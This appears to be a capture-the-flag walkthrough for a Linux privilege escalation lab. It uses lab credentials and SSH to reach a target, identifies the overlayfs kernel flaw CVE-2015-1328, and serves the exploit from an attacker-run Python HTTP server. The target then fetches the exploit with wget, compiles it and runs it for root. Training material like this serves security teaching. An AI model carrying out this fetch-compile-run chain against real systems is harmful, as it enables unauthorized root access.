

## Privilege Escalation: Kernel Exploits
- Username: karen
- Password: Password1

First, access to the machine over SSH

`sudo openvpn nguyenlong05.ovpn`

`ssh karen@10.10.230.143`

Once connected, run the following command to gather system details:

```
$ hostnamectl
   Static hostname: wade7363
         Icon name: computer-vm
           Chassis: vm
           Boot ID: 562b28fdff4045a1a0a1684e8d8c80c6
  Operating System: Ubuntu 14.04 LTS
            Kernel: Linux 3.13.0-24-generic
      Architecture: x86_64
```

Now we could identify the CVE for kernel exploit


```
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/C
VE-2015-1328.html)
```

Download the script https://www.exploit-db.com/exploits/37292 

Now we check the ip address by the `ifconfig` command


Starts a HTTP server using Python. By default, the server listens on port 8000

`python3 -m http.server`

On the machine, we can see it can't create or write file on target system, but we can move to /tmp directory to do it

`cd /tmp`

Now we transfer the exploit to target system `wget http://10.17.21.74:8000/37292.c` and complie it: `gcc 37292.c -o bocchitherock`, make it executable `chmod +x bocchitherock` and run the script `./bocchitherock`


